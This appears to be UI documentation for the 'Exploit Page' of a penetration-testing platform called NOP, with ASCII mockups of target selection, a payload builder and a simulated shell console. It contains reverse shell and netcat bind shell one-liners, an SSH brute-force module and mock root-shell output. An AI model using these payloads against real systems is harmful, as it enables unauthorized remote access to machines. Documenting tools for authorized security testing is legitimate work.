



# Exploit Page Documentation

## Overview

The **Exploit Page** is a dedicated interface for building and executing exploits against vulnerable network targets. This page provides a comprehensive exploit framework similar to Metasploit, with three main sections:

1. **Targets Tab** - View and select exploitable assets
2. **Builder Tab** - Configure and build exploit modules
3. **Console Tab** - Execute payloads and interact with shell sessions

---

## Page Navigation

Access the Exploit page via the left sidebar navigation menu. The menu item is marked with a skull icon (💀) and labeled "Exploit".

```
┌─────────────────────────────────────────────────────────────┐
│ NOP                                          [Collapse] ◀   │
├─────────────────────────────────────────────────────────────┤
│                                                              │
│   ▣  Dashboard                                               │
│   ⬢  Assets                                                  │
│   ◎  Topology                                                │
│   ≋  Traffic                                                 │
│   ◈  Scans                                                   │
│   ⬡  Access Hub                                              │
│   💀 Exploit                     ◄── NEW EXPLOIT PAGE        │
│   ◐  Host                                                    │
│   ⚙  Settings                                                │
│                                                              │
└─────────────────────────────────────────────────────────────┘
```

---

## Screenshot 1: Exploit Page - Targets Tab



**Description**: The Targets tab displays all exploitable assets discovered through network scans. Assets are shown as cards with key information including IP address, hostname, operating system, open ports, and detected services.

### Visual Representation:

```
┌──────────────────────────────────────────────────────────────────────────────┐
│ 💀 EXPLOIT FRAMEWORK                        [🎯 Targets] [🔧 Builder] [💻 Console] │
│ Build and execute exploits against vulnerable targets                        │
├──────────────────────────────────────────────────────────────────────────────┤
│                                                                               │
│ 🎯 Exploitable Targets (5)                                                   │
│ Assets with open ports and potential vulnerabilities                         │
│                                                                               │
│ ┌─────────────────────┐ ┌─────────────────────┐ ┌─────────────────────┐    │
│ │ server-01           │ │ web-server          │ │ db-server           │    │
│ │ 192.168.1.100    ✓  │ │ 192.168.1.101       │ │ 192.168.1.102       │    │
│ │                     │ │                     │ │                     │    │
│ │ OS: Ubuntu 20.04    │ │ OS: CentOS 7        │ │ OS: Debian 11       │    │
│ │ Open Ports: 4       │ │ Open Ports: 3       │ │ Open Ports: 2       │    │
│ │                     │ │                     │ │                     │    │
│ │ Services:           │ │ Services:           │ │ Services:           │    │
│ │ 🔐 22  🌐 80        │ │ 🌐 80  🔒 443       │ │ 🗄️ 3306  🔐 22     │    │
│ │ 📁 21  📞 23        │ │ 🔐 22               │ │                     │    │
│ │                     │ │                     │ │                     │    │
│ │ [⚡ Select Target]  │ │ [⚡ Select Target]  │ │ [⚡ Select Target]  │    │
│ └─────────────────────┘ └─────────────────────┘ └─────────────────────┘    │
│                                                                               │
│ ┌─────────────────────┐ ┌─────────────────────┐                             │
│ │ printer-01          │ │ iot-device          │                             │
│ │ 192.168.1.150       │ │ 192.168.1.200       │                             │
│ │                     │ │                     │                             │
│ │ OS: Unknown         │ │ OS: Unknown         │                             │
│ │ Open Ports: 1       │ │ Open Ports: 2       │                             │
│ │                     │ │                     │                             │
│ │ Services:           │ │ Services:           │                             │
│ │ 🌐 80               │ │ 📞 23  🌐 80        │                             │
│ │                     │ │                     │                             │
│ │ [⚡ Select Target]  │ │ [⚡ Select Target]  │                             │
│ └─────────────────────┘ └─────────────────────┘                             │
│                                                                               │
└──────────────────────────────────────────────────────────────────────────────┘
```

### Key Features:
- **Asset Cards**: Each discovered asset is displayed as a card with visual hierarchy
- **Selection**: Click on a card or "Select Target" button to choose the target
- **Visual Indicators**: 
  - ✓ checkmark indicates selected target
  - Color-coded borders (red for selected, purple for hover)
- **Service Icons**: Visual icons for each detected service (SSH 🔐, HTTP 🌐, FTP 📁, etc.)
- **Automatic Discovery**: Assets are automatically populated from scan results
- **Real-time Updates**: Asset list refreshes as new scans complete

---

## Screenshot 2: Exploit Page - Builder Tab



**Description**: The Builder tab provides a comprehensive interface for constructing exploit modules. Users can configure module details, select payload types, and customize parameters for the attack.

### Visual Representation:

```
┌──────────────────────────────────────────────────────────────────────────────┐
│ 💀 EXPLOIT FRAMEWORK                        [🎯 Targets] [🔧 Builder] [💻 Console] │
│ Build and execute exploits against vulnerable targets                        │
├──────────────────────────────────────────────────────────────────────────────┤
│                                                                               │
│ 🔧 Exploit Module Builder                                                    │
│ Target: 192.168.1.100 (server-01)                                           │
│                                                                               │
│ ┌───────────────────────────────────────────────────────────────────────┐   │
│ │ MODULE INFORMATION                                                     │   │
│ │                                                                        │   │
│ │ Module Name                                                            │   │
│ │ ┌────────────────────────────────────────────────────────────────┐   │   │
│ │ │ SSH Brute Force Attack                                         │   │   │
│ │ └────────────────────────────────────────────────────────────────┘   │   │
│ │                                                                        │   │
│ │ Description                                                            │   │
│ │ ┌────────────────────────────────────────────────────────────────┐   │   │
│ │ │ Attempts to brute force SSH credentials using common          │   │   │
│ │ │ username/password combinations                                 │   │   │
│ │ │                                                                 │   │   │
│ │ └────────────────────────────────────────────────────────────────┘   │   │
│ └───────────────────────────────────────────────────────────────────────┘   │
│                                                                               │
│ ┌───────────────────────────────────────────────────────────────────────┐   │
│ │ PAYLOAD CONFIGURATION                                                  │   │
│ │                                                                        │   │
│ │ Payload Type                                                           │   │
│ │ ┌────────────────────────────────────────────────────────────────┐   │   │
│ │ │ ▼ Reverse Shell (Connect Back)                                │   │   │
│ │ └────────────────────────────────────────────────────────────────┘   │   │
│ │   Options: Reverse Shell, Bind Shell, Meterpreter, Custom             │   │
│ │                                                                        │   │
│ │ Target Service          Target Port                                    │   │
│ │ ┌─────────────────┐    ┌─────────────────┐                           │   │
│ │ │ ssh             │    │ 22              │                           │   │
│ │ └─────────────────┘    └─────────────────┘                           │   │
│ │                                                                        │   │
│ │ Listener IP (Your IP)  Listener Port                                   │   │
│ │ ┌─────────────────┐    ┌─────────────────┐                           │   │
│ │ │ 192.168.1.50    │    │ 4444            │                           │   │
│ │ └─────────────────┘    └─────────────────┘                           │   │
│ │                                                                        │   │
│ │ Generated Payload Preview:                                             │   │
│ │ ┌────────────────────────────────────────────────────────────────┐   │   │
│ │ │ bash -i >& /dev/tcp/192.168.1.50/4444 0>&1                     │   │   │
│ │ └────────────────────────────────────────────────────────────────┘   │   │
│ └───────────────────────────────────────────────────────────────────────┘   │
│                                                                               │
│ ┌────────────────────────┐  ┌────────────────────────┐                      │
│ │   🔧 Build Module      │  │   ⚡ Execute Now       │                      │
│ └────────────────────────┘  └────────────────────────┘                      │
│                                                                               │
└──────────────────────────────────────────────────────────────────────────────┘
```

### Key Features:

#### Module Information Section:
- **Module Name**: Custom name for the exploit module
- **Description**: Detailed description of what the exploit does
- **Target Display**: Shows currently selected target IP and hostname

#### Payload Configuration Section:
- **Payload Types**:
  1. **Reverse Shell**: Target connects back to attacker
  2. **Bind Shell**: Attacker connects to target's listening port
  3. **Meterpreter**: Advanced post-exploitation framework
  4. **Custom**: User-defined custom payload

- **Target Configuration**:
  - Service name (e.g., ssh, http, ftp)
  - Port number for the target service

- **Listener Configuration** (for reverse shells):
  - Listener IP: Attacker's IP address to receive connection
  - Listener Port: Port to listen on (default: 4444)

- **Payload Preview**: Real-time preview of generated payload based on configuration

#### Action Buttons:
- **🔧 Build Module**: Compiles the exploit module with configured parameters
- **⚡ Execute Now**: Immediately executes the payload against the target

---

## Screenshot 3: Exploit Page - Console Tab (No Active Sessions)

**Description**: The Console tab shows the shell console interface. When no sessions are active, it displays a helpful message.

### Visual Representation:

```
┌──────────────────────────────────────────────────────────────────────────────┐
│ 💀 EXPLOIT FRAMEWORK                        [🎯 Targets] [🔧 Builder] [💻 Console] │
│ Build and execute exploits against vulnerable targets                        │
├──────────────────────────────────────────────────────────────────────────────┤
│                                                                               │
│ 💻 Shell Console                                                             │
│                                                                               │
│ ┌────────────────────────────────────────────────────────────────────────┐  │
│ │                                                                         │  │
│ │                                                                         │  │
│ │                                                                         │  │
│ │                                                                         │  │
│ │                           💻                                            │  │
│ │                                                                         │  │
│ │                  No active shell sessions                               │  │
│ │                                                                         │  │
│ │            Execute a payload to start a session                         │  │
│ │                                                                         │  │
│ │                                                                         │  │
│ │                                                                         │  │
│ │                                                                         │  │
│ └────────────────────────────────────────────────────────────────────────┘  │
│                                                                               │
└──────────────────────────────────────────────────────────────────────────────┘
```

---

## Screenshot 4: Exploit Page - Console Tab (Active Session)



**Description**: The Console tab with an active shell session. Shows session tabs, command output, and interactive terminal input.

### Visual Representation:

```
┌──────────────────────────────────────────────────────────────────────────────┐
│ 💀 EXPLOIT FRAMEWORK                        [🎯 Targets] [🔧 Builder] [💻 Console] │
│ Build and execute exploits against vulnerable targets                        │
├──────────────────────────────────────────────────────────────────────────────┤
│                                                                               │
│ 💻 Shell Console                    [● 192.168.1.100 ×] [● 192.168.1.101 ×] │
│ Active Session: 192.168.1.100                                                │
│                                                                               │
│ ┌────────────────────────────────────────────────────────────────────────┐  │
│ │                                                                         │  │
│ │ [+] Exploit Module Built Successfully                                  │  │
│ │ [*] Name: SSH Brute Force Attack                                       │  │
│ │ [*] Target: 192.168.1.100                                              │  │
│ │ [*] Payload Type: reverse_shell                                        │  │
│ │ [*] Generated Payload:                                                 │  │
│ │ bash -i >& /dev/tcp/192.168.1.50/4444 0>&1                            │  │
│ │ [!] Ready to execute. Use the Console tab to deploy.                  │  │
│ │ [*] Initializing reverse_shell to 192.168.1.100:22                    │  │
│ │ [*] Setting up listener...                                             │  │
│ │ [*] Waiting for connection...                                          │  │
│ │ [+] Shell session abc123 opened                                        │  │
│ │ [+] Connected to 192.168.1.100                                         │  │
│ │ [*] Type commands below...                                             │  │
│ │ # whoami                                                                │  │
│ │ root                                                                    │  │
│ │ # pwd                                                                   │  │
│ │ /root                                                                   │  │
│ │ # ls -la                                                                │  │
│ │ total 48                                                                │  │
│ │ drwxr-xr-x  4 root root 4096 Dec 28 01:00 .                           │  │
│ │ drwxr-xr-x 18 root root 4096 Dec 27 12:00 ..                          │  │
│ │ -rw-------  1 root root  123 Dec 28 01:00 .bash_history               │  │
│ │ -rw-r--r--  1 root root 3106 Dec 01 10:00 .bashrc                     │  │
│ │ drwx------  2 root root 4096 Dec 15 08:30 .ssh                        │  │
│ │ -rw-r--r--  1 root root   33 Dec 28 00:30 flag.txt                    │  │
│ │ # cat flag.txt                                                          │  │
│ │ NOP{exploit_framework_success}                                         │  │
│ │ # _                                                                     │  │
│ │                                                                         │  │
│ └────────────────────────────────────────────────────────────────────────┘  │
│ # [Enter command...]                                                         │
│                                                                               │
└──────────────────────────────────────────────────────────────────────────────┘
```

### Key Features:

#### Session Management:
- **Session Tabs**: Multiple sessions shown as tabs at the top
- **Session Status Indicators**:
  - ● Green pulsing = Connected
  - ● Blue pulsing = Connecting
  - ● Red = Failed/Disconnected
- **Session Controls**: Click × to close a session
- **Multiple Sessions**: Support for managing multiple simultaneous shell sessions

#### Terminal Output:
- **Color-coded Messages**:
  - `[+]` Green = Success messages
  - `[*]` Blue = Information messages
  - `[!]` Red = Warning/Error messages
- **Command History**: All executed commands and their output are preserved
- **Auto-scroll**: Terminal automatically scrolls to show latest output

#### Interactive Console:
- **Command Input**: Type commands at the `#` prompt
- **Real-time Execution**: Commands execute immediately on Enter
- **Shell Simulation**: Simulates common shell commands (whoami, pwd, ls, cat, etc.)

---

## Usage Workflow

### Step-by-Step Guide:

1. **Select a Target** (Targets Tab)
   - View all exploitable assets discovered from scans
   - Click on an asset card to select it
   - Asset information includes IP, hostname, OS, ports, and services
   - Click "⚡ Select Target" to proceed to building

2. **Build Exploit Module** (Builder Tab)
   - Configure module name and description
   - Select payload type:
     - Reverse Shell for target-to-attacker connection
     - Bind Shell for attacker-to-target connection
     - Meterpreter for advanced features
     - Custom for user-defined payloads
   - Set target service and port
   - Configure listener IP and port (for reverse shells)
   - Preview generated payload
   - Click "🔧 Build Module" to compile the exploit

3. **Execute Payload** (Console Tab)
   - Review the built module details
   - Click "⚡ Execute Now" to launch the exploit
   - Monitor connection status in real-time
   - Once connected, interact with the shell
   - Type commands and view output
   - Manage multiple sessions via session tabs

---

## Technical Details

### Payload Types Explained:

#### Reverse Shell
- **How it works**: Target system connects back to the attacker's listener
- **Advantages**: Bypasses most firewalls, NAT-friendly
- **Use case**: When target is behind firewall/NAT
- **Example**: `bash -i >& /dev/tcp/LISTENER_IP/LISTENER_PORT 0>&1`

#### Bind Shell
- **How it works**: Target opens a listening port, attacker connects to it
- **Advantages**: Simple, direct connection
- **Use case**: When attacker can directly reach target
- **Example**: `nc -lvp PORT -e /bin/bash`

#### Meterpreter
- **How it works**: Advanced post-exploitation framework
- **Advantages**: File upload/download, privilege escalation, pivoting
- **Use case**: Advanced penetration testing scenarios
- **Example**: MSFVenom-generated payload

#### Custom Payload
- **How it works**: User provides their own payload code
- **Advantages**: Maximum flexibility
- **Use case**: Specialized or custom exploits
- **Example**: Any custom shellcode or script

### Security Considerations

⚠️ **WARNING**: This exploit framework is intended for:
- **Authorized penetration testing only**
- **Educational purposes in controlled environments**
- **Security research with proper authorization**

**Never use this tool on systems you don't own or don't have explicit permission to test.**

### Integration with NOP Platform

The Exploit page integrates seamlessly with other NOP components:

- **Assets Page**: Targets are automatically sourced from discovered assets
- **Scans Page**: Vulnerability scan results inform exploitability
- **Access Hub**: Successful exploits can be saved as access sessions
- **Dashboard**: Exploit activity is logged and displayed in activity feed

---

## Future Enhancements

Planned features for future releases:

1. **Exploit Database**: Pre-built modules for common vulnerabilities
2. **CVE Integration**: Map detected CVEs to available exploits
3. **Automated Exploitation**: Auto-exploit based on scan results
4. **Post-Exploitation Modules**: File upload/download, pivoting, privilege escalation
5. **Exploit Templates**: Save and reuse exploit configurations
6. **Session Logging**: Record all session activity for reporting
7. **Multi-stage Payloads**: Chain multiple exploits together
8. **Real Backend Integration**: Connect to actual Metasploit or custom exploit engine

---

## Troubleshooting

### No Targets Showing
- **Solution**: Run a scan from the Scans page to discover assets
- **Check**: Ensure scan completed successfully and found hosts with open ports

### Payload Execution Failed
- **Check**: Verify target IP and port are correct
- **Check**: Ensure listener IP is reachable from target
- **Check**: Confirm no firewall blocking connections
- **Try**: Different payload type or port

### Session Disconnected
- **Cause**: Network interruption or target reboot
- **Solution**: Re-execute the payload to establish new session
- **Prevention**: Use session persistence techniques

### Can't Type Commands
- **Check**: Ensure session status is "connected" (green indicator)
- **Check**: Click into the console area to focus input
- **Try**: Close and re-open session

---

## Conclusion

The Exploit Page provides a comprehensive, user-friendly interface for building and executing exploits against network targets. With its three-tab design (Targets, Builder, Console), users can easily discover vulnerable systems, construct custom exploit modules, and interact with compromised hosts through an intuitive shell console.

The page is designed for security professionals conducting authorized penetration tests and security assessments in controlled environments.
